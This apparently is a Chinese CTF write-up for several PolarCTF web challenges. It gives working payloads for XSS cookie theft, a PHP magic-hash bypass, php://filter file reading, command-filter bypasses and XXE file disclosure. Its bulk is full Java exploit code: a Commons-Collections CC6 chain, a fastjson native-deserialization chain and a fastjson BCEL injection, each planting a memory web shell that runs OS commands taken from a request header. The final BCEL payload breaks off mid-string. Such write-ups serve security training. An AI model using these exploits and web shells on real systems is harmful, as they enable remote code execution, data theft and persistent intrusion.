






# 扫扫看

都提示了，直接扫目录拿到flag.php了



# debudao

## #XSS

源码中看了一个js逻辑，会直接将我们的输入插入到页面上

```javascript
        if(document.location.href.indexOf("search=") >= 0){
            var str=window.location.search;
            var ipt=decodeURIComponent(str.split("search=")[1]);
            var ipt=ipt.replace(/\+/g," ");
            // document.write("<p>" + htmlspecialchars(ipt) + "</p>");
            document.write("<p>" + ipt + "</p>");
            $flag="flag{asdwafvx84va54fefe8asvd2a4d8awdavavefv84}";
        }
```

但是这里注释掉了一个html转义的代码，那估计是打xss了，看看能不能拿一下cookie

```javascript
<script>alert(document.cookie)</script>
```

用户的cookie就是flag

# 审计

## #php特性

```php
no no no! <?php
error_reporting(0);
include("flag.php");
highlight_file(__FILE__);

if (isset($_GET['xxs'])) {
    $input = $_GET['xxs'];

    if (is_array($input)) {
        die("错误：输入类型不允许为数组。");
    }
    if (!preg_match("/^0e[0-9]+$/", md5($input))) {
        die("错误：输入的MD5值必须以'0e'开头，并跟随数字。");
    }
    if (!is_numeric($input)) {
        die("错误：输入必须是数字。");
    }

    die("恭喜：".$flag);
} else {
    die("错误：必须设置正确参数。");
}
?>
错误：必须设置正确参数。
```

随便传一个md5的值是0e开头的纯数字就行

```http
?xxs=240610708
```

# tnl

## #任意文件包含

传入单引号有回显SQL报错，后面打sql一直没打通，看wp才知道是伪协议读文件。。。。

```php
<?php
error_reporting(0);
@$file = $_POST['twothree'];

if(isset($file))
{
	if( strpos( $file, "1" ) !==  false || strpos( $file, "2" ) !==  false || strpos( $file, "index")){
		include ($file . '.php');
	}
	else{
		echo "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'twothree'' at line 1";
	}
}
```

有限制，直接把1、2或者index放在过滤器里面就行

```http
twothree=php://filter/convert.base64-encode/1/resource=flag
```

# 你知道sys还能这样玩吗

## #极限RCE

打开就是403，扫目录也没扫出来什么，不过在sys.php中有东西

```php
<?php
show_source(__FILE__);

if(isset($_POST['cmd'])){
    echo "<pre>";
    $cmd = $_POST['cmd'];
    if (!preg_match('/ls|dir|nl|nc|cat|tail|more|flag|sh|cut|awk|strings|od|curl|\*|sort|ch|zip|mod|sl|find|sed|cp|mv|ty|grep|fd|df|sudo|more|cc|tac|less|head|\.|{|}|tar|zip|gcc|uniq|vi|vim|file|xxd|base64|date|bash|env|\?|wget/i', $cmd)) {
        $output = system($cmd);
        echo $output;
    }
    echo "</pre>";
}
?>
```

好家伙这么多命令，懒得看怎么绕过了，直接用变量拼接

```bash
cmd=a=l;b=s;$a$b /
cmd=a=ca;b=t;c=fla;d=g[^x]txt;$a$b /$c$d
```

或者也可以直接用php的cli执行代码

```php
cmd=php -r 'system(hex2bin("636174202f666c61672e747874"));'
```

不需要引号的版本

```php
cmd=php -r 'system(hex2bin(ff3b636174202f666c61672e747874));'
```

# ExX?

## #XXE

有个phpinfo，扫一下目录有一个/dom.php

```php

Warning: DOMDocument::loadXML(): Empty string supplied as input in /var/www/html/dom.php on line 5
DOMDocument Object ( [doctype] => [implementation] => (object value omitted) [documentElement] => [actualEncoding] => [encoding] => [xmlEncoding] => [standalone] => 1 [xmlStandalone] => 1 [version] => 1.0 [xmlVersion] => 1.0 [strictErrorChecking] => 1 [documentURI] => [config] => [formatOutput] => [validateOnParse] => [resolveExternals] => [preserveWhiteSpace] => 1 [recover] => [substituteEntities] => [nodeName] => #document [nodeValue] => [nodeType] => 9 [parentNode] => [childNodes] => (object value omitted) [firstChild] => [lastChild] => [previousSibling] => [nextSibling] => [attributes] => [ownerDocument] => [namespaceURI] => [prefix] => [localName] => [baseURI] => [textContent] => )
```

有一个DOMDocument::loadXML()报错缺少输入字符串

结合题目名字，猜测是xxe实体注入，直接传就行

```http
GET /dom.php HTTP/1.1
Host: 624012bf-720d-4c1f-bcde-7afd5ef60a53.www.polarctf.com:8090
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Content-Length: 173

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=flagggg.php"> ]> <xml><name>&xxe;</name></xml>
```

# CC链

先把jar包下下来反编译并放到idea中



很明显了，存在CC链反序列化

看一下控制器

```java
package org.polar.ctf.controller;

import org.polar.ctf.util.Tools;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;

@Controller
/* loaded from: CC.jar:BOOT-INF/classes/org/polar/ctf/controller/ReadController.class */
public class ReadController {
    @RequestMapping({"/read"})
    @ResponseBody
    public String getObj(String obj) throws Exception {
        byte[] Bytes = Tools.base64Decode(obj);
        Object Obj = Tools.deserialize(Bytes);
        return Obj.toString();
    }
}
```

base64解码并调用deserialize

```java
package org.polar.ctf.util;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.util.Base64;

/* loaded from: CC.jar:BOOT-INF/classes/org/polar/ctf/util/Tools.class */
public class Tools {
    public static byte[] base64Decode(String base64) {
        Base64.Decoder decoder = Base64.getDecoder();
        return decoder.decode(base64);
    }

    public static String base64Encode(byte[] bytes) {
        Base64.Encoder encoder = Base64.getEncoder();
        return encoder.encodeToString(bytes);
    }

    public static byte[] serialize(final Object obj) throws Exception {
        ByteArrayOutputStream btout = new ByteArrayOutputStream();
        ObjectOutputStream objOut = new ObjectOutputStream(btout);
        objOut.writeObject(obj);
        return btout.toByteArray();
    }

    public static Object deserialize(final byte[] serialized) throws Exception {
        ByteArrayInputStream btin = new ByteArrayInputStream(serialized);
        ObjectInputStream objIn = new ObjectInputStream(btin);
        return objIn.readObject();
    }
}
```

没过滤的反序列化操作，先用URLDNS测试一下发现不出网，那就打内存马吧

## POC

这里用CC6打

```java
package org.polar.ctf;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

import static org.polar.ctf.util.Tools.*;

public class EXP {
    public static void main(String[] args) throws Exception {
        byte[] bytes = Files.readAllBytes(Paths.get("C:\\Users\\23232\\Desktop\\附件\\jar\\out\\production\\jar\\Memshell.class"));
        TemplatesImpl templates = (TemplatesImpl)getTemplates(bytes);

        //InstantiateTransformer#transform()触发链
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(templates),
                new InvokerTransformer("newTransformer",null,null)
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        //CC6
        Map<Object,Object> lazyMap = LazyMap.decorate(new HashMap<>(),new ConstantTransformer("1"));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"2");

        //在put中修改factory，导致不会触发hash，并移除key
        HashMap<Object,Object> hashmap = new HashMap<>();
        hashmap.put(tiedMapEntry, "3");
        lazyMap.remove("2");

        //反射修改factory值
        setFieldValue(lazyMap,"factory",chainedTransformer);

        String poc = base64Encode(serialize(hashmap));
        System.out.println(poc);
    }
    public static Object getTemplates(byte[] bytes) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");
        setFieldValue(templates, "_bytecodes", new byte[][]{bytes});
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        return templates;
    }
    //定义一个修改属性值的方法
    public static void setFieldValue(Object object, String field_name, Object field_value) throws Exception {
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
}

```

内存马

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Memshell extends AbstractTranslet {
    static {
        org.springframework.web.context.request.RequestAttributes requestAttributes = org.springframework.web.context.request.RequestContextHolder.getRequestAttributes();
        javax.servlet.http.HttpServletRequest httprequest = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getRequest();
        javax.servlet.http.HttpServletResponse httpresponse = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getResponse();
        String[] cmd = System.getProperty("os.name").toLowerCase().contains("windows")? new String[]{"cmd.exe", "/c", httprequest.getHeader("Cmd")} : new String[]{"/bin/sh", "-c", httprequest.getHeader("Cmd")};
        byte[] result = new byte[0];
        try {
            result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream()).useDelimiter("\\A").next().getBytes();
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        try {
            httpresponse.getWriter().write(new String(result));
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        try {
            httpresponse.getWriter().flush();
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        try {
            httpresponse.getWriter().close();
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```


# ezJson

```java
package com.polar.ctf.controller;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONArray;
import com.alibaba.fastjson.JSONObject;
import java.io.ByteArrayInputStream;
import java.io.InputStream;
import java.io.ObjectInputStream;
import java.util.Base64;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;
import org.springframework.web.servlet.tags.BindTag;

@Controller
/* loaded from: ezJson.jar:BOOT-INF/classes/com/polar/ctf/controller/ReadController.class */
public class ReadController {
    @RequestMapping({"/read"})
    @ResponseBody
    public String getUser(String data) throws Exception {
        if (data == null) {
            throw new IllegalArgumentException("Data cannot be null");
        }
        byte[] b = Base64.getDecoder().decode(data);
        if (b == null) {
            throw new IllegalArgumentException("Decoded data cannot be null");
        }
        InputStream inputStream = new ByteArrayInputStream(b);
        if (inputStream == null) {
            throw new IllegalArgumentException("Input stream cannot be null");
        }
        ObjectInputStream objectInputStream = new ObjectInputStream(inputStream);
        Object obj = objectInputStream.readObject();
        JSONArray dataArray = new JSONArray();
        JSONObject item = new JSONObject();
        item.put("code", (Object) 200);
        item.put(BindTag.STATUS_VARIABLE_NAME, (Object) "success");
        item.put("obj", (Object) JSON.toJSONString(obj));
        dataArray.add(item);
        return dataArray.toJSONString();
    }
}
```



高版本的fastjson，有反序列化的点那就打fastjson原生反序列化

## POC

用map去绕过高版本的安全机制

```java
package com.polar.ctf;

import com.alibaba.fastjson.JSONArray;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;

public class Poc {
    public static void main(String[] args) throws Exception {
        byte[] bytes = Files.readAllBytes(Paths.get("C:\\Users\\23232\\Desktop\\附件\\jar\\out\\production\\jar\\Memshell.class"));
        TemplatesImpl templates = (TemplatesImpl) getTemplates(bytes);

        //触发TemplatesImpl#getOutputProperties()方法
        JSONArray jsonArray = new JSONArray();
        jsonArray.add(templates);

        //触发toString()方法
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        setFieldValue(badAttributeValueExpException,"val",jsonArray);

        //用Map去绕过fastjson2
        HashMap map = new HashMap();
        map.put(templates, badAttributeValueExpException);

        serialize(map);
    }

    public static Object getTemplates(byte[] bytes) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");
        setFieldValue(templates, "_bytecodes", new byte[][]{bytes});
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        return templates;
    }

    public static void setFieldValue(Object object, String field_name, Object field_value) throws Exception {
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    //将序列化字符串转为base64
    public static void serialize(Object object) throws Exception{
        ByteArrayOutputStream data = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(data);
        oos.writeObject(object);
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(data.toByteArray()));
    }
}
```

内存马

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Memshell extends AbstractTranslet {
    static {
        org.springframework.web.context.request.RequestAttributes requestAttributes = org.springframework.web.context.request.RequestContextHolder.getRequestAttributes();
        javax.servlet.http.HttpServletRequest httprequest = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getRequest();
        javax.servlet.http.HttpServletResponse httpresponse = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getResponse();
        String[] cmd = System.getProperty("os.name").toLowerCase().contains("windows")? new String[]{"cmd.exe", "/c", httprequest.getHeader("Cmd")} : new String[]{"/bin/sh", "-c", httprequest.getHeader("Cmd")};
        byte[] result = new byte[0];
        try {
            result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream()).useDelimiter("\\A").next().getBytes();
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        try {
            httpresponse.getWriter().write(new String(result));
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        try {
            httpresponse.getWriter().flush();
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        try {
            httpresponse.getWriter().close();
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```



# FastJsonBCEL

## #Fastjson的BCEL注入

## 源码和依赖

JsonController.java

```java
package org.polar.ctf.controller;

import com.alibaba.fastjson.JSONObject;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestBody;

@Controller
/* loaded from: FastJsonBCEL.jar:BOOT-INF/classes/org/polar/ctf/controller/JsonController.class */
public class JsonController {
    @PostMapping({"/parse"})
    public Object parseJson(@RequestBody String jsonString) {
        return JSONObject.parse(jsonString);
    }
}

```

一个JSON反序列化的口子，参数是jsonString



有fastjson依赖，版本是1.2.24，可以打fastjson反序列化


同时关注到有tomcat-dbcp依赖，可以利用fastjson打BCEL注入

## POC

内存马

```java
import java.lang.reflect.Method;
import java.util.Scanner;

public class Memshell {
    static {
        try {
            Class v0 = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.RequestContextHolder");
            Method v1 = v0.getMethod("getRequestAttributes");
            Object v2 = v1.invoke(null);
            v0 = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.ServletRequestAttributes");
            v1 = v0.getMethod("getResponse");
            Method v3 = v0.getMethod("getRequest");
            Object v4 = v1.invoke(v2);
            Object v5 = v3.invoke(v2);
            Method v6 = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.ServletResponse").getDeclaredMethod("getWriter");
            Method v7 = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.http.HttpServletRequest").getDeclaredMethod("getHeader",String.class);
            v7.setAccessible(true);
            v6.setAccessible(true);
            Object v8 = v6.invoke(v4);
            String v9 = (String) v7.invoke(v5,"Cmd");      //请求头传参
            String[] v10 = new String[3];
            if (System.getProperty("os.name").toUpperCase().contains("WIN")){
                v10[0] = "cmd";
                v10[1] = "/c";
            }else {
                v10[0] = "/bin/sh";
                v10[1] = "-c";
            }
            v10[2] = v9;
            v8.getClass().getDeclaredMethod("println",String.class).invoke(v8,(new Scanner(Runtime.getRuntime().exec(v10).getInputStream())).useDelimiter("\\A").next());
            v8.getClass().getDeclaredMethod("flush").invoke(v8);
            v8.getClass().getDeclaredMethod("clone").invoke(v8);
        } catch (Exception var11) {
            var11.getStackTrace();
        }
    }
}
```

生成恶意类的BCEL字节码

```java
import com.sun.org.apache.bcel.internal.classfile.Utility;

import java.io.IOException;
import java.nio.file.Files;
import java.nio.file.Paths;

public class POC {
    public static void main(String[] args) throws IOException {
        byte[] bytes = Files.readAllBytes(Paths.get("C:\\Users\\23232\\Desktop\\附件\\java\\out\\production\\java\\Memshell.class"));
        String code = Utility.encode(bytes,true);
        System.out.println(code);
    }
}
```

最终POC

```java
{
    {
      "aaa": {
              "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
              "driverClassLoader": {
                  "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
              },
              "driverClassName": "$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$8dV$cb$5b$TW$U$ff$5dH$98a$YD$C$I$f1$8d$cf$80$9a$88o$81Z$R$b1P$B$adA$v$a2m$t$c3$85$8cLf$e2$cc$E$d1$be$df$ad$7d$d9$97$ad$b5$_k$5b$db$bar$T$f9$daO$bf$ae$bbh7$ddv$d5U$bb$e9$7fP$7bn$s$d1D$b0$z$df$c7$b9$f7$9e$f7$fd$9dsn$e6$a7$bf$bf$bf$J$60$L$ae$w$a8$c4C$K$O$n$$$c8$90$8c$c3$K$8e$60X$c6$c3$SF$UH8$waT$c11$i$97$f1$88$8cGe$3c$sC$93$91$Q2$5d$c6$98$M$$a$5chL$c8H$ca0$U$9c$c0$a4$82$3a$982Rb$b5d$d82$d22N$capD$3cW$86$t$n$a3$60$K$a7$E$99Vp$gg$U4$e3q$ZO$88$f5IA$9e$92$f1$b4$8cg$q$3c$ab$60$j$9e$93$f0$3cCE$a7a$Z$de$$$86$f2H$cb$R$86$40$b7$3d$c6$Zj$fa$N$8b$PfR$J$ee$Mi$J$938$a1$7e$5b$d7$cc$p$9ac$88s$9e$Z$f0$92$86$cb$a0$f4$P$f0$94$9b$e4$a6$d9$c1$mw$eaf$dee$d9$d4F$86$da$fe$T$da$94$W35k$o$d6mj$ae$db$n$Em$M$L$8b$E$O$l7$b9$ee$c5$G$b8$97$b4$c7r$g$9bD$cc$3b$g$H$S$tH$n$t$d9$y$c8$WA$b6$K$b2M$90$ed$82$ec$Qdg$a9$5d$dcs$Mk$82$ec$ca$a7$da$u$9b$ba$d1$b9d$c1$v$cdi$a3$94$g$8a$84$3d$d3$3aO$7b$86m$91$bc$3a$eei$fa$e4$80$96$ce$dd$9b$ea$u$e1$F$aa$o$95IB$P$c1I$Q$c4$ed$8c$a3$f3$7d$86$80$a5$ba$AGT$b8S$REL$c2$8b$w$5e$c2$cb$w$5e$c1$ab$M$9d$b63$Ru$d3$o$fc$b8$a3$a5$f8$v$db$99$8c$9e$e2$89$a8n$5b$k$9f$f6$a2$O$3f$99$e1$ae$X$3d$e4$af$dd$3e$bb$d76$c7$b8$p$e1$ac$8a$d7$f0$3aC$fd$E$f7$f2$g$5d$k$5d$s$91$f18$d5$a3$e6$$$c4U$bc$817$Z$e6$df$8d$s$ddB$c5$5b8$c7$b0$fb$ff$e6$T$e7$ce$949g$d0$aa$5c$$n$da$b6$5c$82$40$b9$93$Z$c3$S$Rx$3a$ea$fa$b6w$7c$U$94$xIy$d81$3c$ee$a8x$5bd$ba$ba$d4$m$e9y$e9h$_$91$d2$e8$bea$_$d7$I$93$92$db$f9uU$f1$O$de$r$9d$3ek$9c$3b$d4$90$a7$Z$q$db$8dZt$3d$J$ef$a9x$l$e7U$7c$80$P$a95$86$fb$GU$5c$c0G$b4$d5Sc$d4E1$9d$94c$J$c3$8a$b9I$3an$d0U$5c$c4$c7$c4$T$Qy$a6Em$9d$L$97$f1$M3$W$d75$cb$Se$f9D$c5$a7$f8L$c5$e7$b8$q$e1$L$V$97$f1$a5$u$feW$e4$e1X$97$8a$afqE$c57$o$60p$dc$cc$I$c7A$dd$b4$z$C$a0n$8e$b6S$f1$z$be$a3q$w$f4$SC$d3$bd$e6$a5$e4$f2CI$87$Q$a1$s$d43$8e$c3$z$afp$ae$8f$b4$f4$df$adE$ad$dd$40$Q$e6$bb$x$d7$x$fd$b6$Pg$b8D$bdH$ql$e6$U$Q$d4$smr$i$wad$f6$a0$cd$f2$d8$e1$97$b0p$8b$dds$d8$8c$ce$b2i$f9$b7w$a3$c2$b0$a6$ecI$82tgd$f6$e31$3a$9b$d52$d7$TSK9$ed$e5$ba$a99$7c$ac$90$5b$b5$cb$bd$$$5d$e7$aek$f8O_$e4$a8x$_$8b$bb$ee$b4$eb$f1$94$3f$I$H$j$3b$cd$j$d1rk$fe$D$87$dboP$95g$lN$93Q$b7$sF$a2$b4Z$b7$95d1$8f$9aa$R$c0$8b$8a$jw$t5$t$$$a6$c2$d2yG$cbQR$Ue$f5$xQ7$bb$92$j$85$fe$cd$b1$Oe$y$cfH$V$86$b6ph$u1$cb$b3$c90$c0$a79MG$q2$c7KZlA$Q$I$b4JC$e5$99$M$f3$uT$9f$95$cexd$c95B$ad$b1$Q$ce$b0cE$C2o$8a$cc$v$Q$e8$ab$Z$97$ef$e5$a6$91$So$H$c3$da$7bc$5d$3c$a8$e2$S$W$f5$3b$V$95$b2$c8$3d$edC$8e$a6$d3$9d$97GZJoU$Q$f5$98$3cE$b3$d4A$3f$a2$h$e8$f7V$fc$95$81$89$87$9d$e8F$3a$89$95$d1$gl$bd$Ov$z$tn$pZ$91c$G$b0$89$a8$ea$x$603$7d$r$A2$b6$W$8c$cb$ae$92$cb$w$80$e93$u$cb$a2$3c$U$c8$o$b8$bf5TQ$7e$DR$Wr$ff$3aF$bb$ca$y$94$81$bcB$95$af$a0$W$UZC$d5$f9$ed$e0$ba$f5y$dd$f6$c0$86$db$db$60$den$k$d9$85j$7c$d5$f9$ed$Vyn$ad$e0$86$C$c4$j$v$P$d5$c5$85H$KK$94D$7d$b8$c2$a7$e1$40$c1$93$i$96$c2AR$ad$q$d5$GRU$7eD$5d$7be$c5$N$a2Jh$c1$M$g$b3h$K$85$b3Xx$B$a1$b0R$kZ$U$P$x$81$d0$e2$f8$V$d4$88$e3$92$dcq$v$d1$60$b82$k$96$b3X$WZ$5e$i9$y$fb$ce$7f$40$f3$c8$MV$84$95$yVf$b1$ea$3aV$87$d6d$b16$8b$88$I$3a$ec$5b$b6$e4o$S$96$f3$e9$e5$f9$ad$b3$f8WP$b9$bf5$8b$f5$c3$d7D$R$d8$I$3bF$l$40$e5$b9$S9XLT$a2$f2$c8h$a4B4C$a1$gWa$Hq$baQ$8dA$cc$c3$Ij